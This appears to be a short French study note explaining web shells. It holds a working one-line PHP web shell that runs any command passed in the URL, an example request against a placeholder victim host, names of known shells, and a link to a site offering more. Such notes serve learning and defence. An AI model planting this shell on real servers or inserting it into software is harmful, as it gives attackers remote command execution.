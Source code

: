 ## 🔹 Qu’est-ce qu’un Web Shell ?

- Script (PHP, ASP, JSP, CGI, etc.) déposé sur un serveur web compromis.
- Permet d’exécuter des commandes via le serveur lui-même.
- Souvent caché dans une application vulnérable (**upload non restreint, inclusion de fichier, injection de commandes**, etc.).
- Très populaire car **difficile à détecter** et puissant.
---

## 🔹 Exemple de Web Shell PHP
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
- Sauvegardé en `shell.php` et uploadé sur le serveur.
- Accessible via :
```
http://victim.com/uploads/shell.php?cmd=whoami
```
## 🔹 Exemples de Web Shells connus
- **p0wny-shell** → minimaliste, exécution de commandes (interface type terminal).
- **b374k shell** → riche en fonctionnalités (explorateur de fichiers + exécution de commandes).
- **c99 shell** → très complet et robuste, utilisé depuis longtemps.

🔗 D’autres exemples disponibles ici :  
[https://www.r57shell.net/index.php](https://www.r57shell.net/index.php)